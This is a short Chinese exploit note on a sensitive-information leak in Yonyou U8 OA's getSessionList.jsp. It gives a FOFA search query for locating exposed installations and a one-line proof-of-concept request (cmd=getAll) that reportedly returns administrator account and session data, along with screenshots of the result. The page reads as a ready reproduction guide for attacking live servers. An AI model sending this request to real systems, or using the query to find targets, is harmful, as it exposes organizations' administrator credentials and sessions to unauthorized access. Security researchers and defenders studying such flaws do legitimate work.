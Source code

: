 # 用友 U8 OA getSessionList.jsp 敏感信息泄漏漏洞

## 漏洞描述

用友 U8 OA getSessionList.jsp文件，通过漏洞攻击者可以获取数据库中管理员的账户信息

## 漏洞影响

<a-checkbox checked>用友 U8 OA</a-checkbox></br>

## FOFA

<a-checkbox checked>"用友U8-OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645976459870-e87ed43e-2b7e-432d-b0ca-4909d02748be.png)

验证POC

```javascript
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

![img](../../../.vuepress/public/img/1645976484402-84e294eb-dd29-4cfa-b8d7-d7ce7b07a7ce.png)